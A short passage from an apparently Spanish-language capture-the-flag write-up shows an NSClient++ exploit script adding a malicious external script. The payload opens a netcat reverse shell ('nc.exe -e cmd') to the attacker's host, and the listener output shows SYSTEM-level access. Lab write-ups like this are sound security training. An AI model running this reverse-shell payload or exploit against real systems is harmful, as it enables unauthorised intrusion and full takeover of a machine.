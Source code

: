 ```bash
❯ python3 nsclient.py -t 127.0.0.1 -P 8443 -p "ew2x6SsGTxjRwXOT" -c "C:\Temp\nc.exe -e cmd 10.10.14.27 443"
[!] Targeting base URL https://127.0.0.1:8443
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Enabling External Scripts Module . . .
[!] Configuring Script with Specified Payload . . .
[+] Added External Script (name: xdozKLVGdAG)
[!] Saving Configuration . . .
[!] Reloading Application . . .
[!] Waiting for Application to reload . . .
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Triggering payload, should execute shortly . . .
[!] Timeout exceeded. Assuming your payload executed . . .
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.184] 50275
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\Program Files\NSClient++>
```

Y ya obtenemos acceso a la máquina como el usuario `nt authority\system`.
